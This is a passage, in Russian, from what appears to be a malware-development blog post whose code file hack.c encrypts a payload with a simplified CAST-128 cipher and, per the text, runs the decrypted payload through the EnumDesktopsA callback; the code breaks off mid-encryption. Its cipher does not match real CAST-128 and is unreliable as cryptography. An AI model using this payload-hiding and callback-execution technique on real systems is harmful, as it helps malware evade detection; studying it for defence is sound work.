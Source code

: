 и расшифрованная полезная нагрузка выполняется с помощью функции `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib + 1) & 0xFFFF); // avoid division by zero
  *d = (*d ^ f) & 0xFFFFFFFF;
}

void f3(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia - Ib) & 0xFFFF); // ensure no overflow
  *d = (*d ^ f) & 0xFFFFFFFF;
}

// key schedule for CAST-128
void cast_key_schedule(uint32_t* key, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < ROUNDS; i++) {
    subkeys[i][0] = key[0];
    subkeys[i][1] = key[1];
    subkeys[i][2] = key[2];
    subkeys[i][3] = key[3];
  }
}

// CAST-128 encryption
void cast_encrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = 0; i < ROUNDS; i++) {
```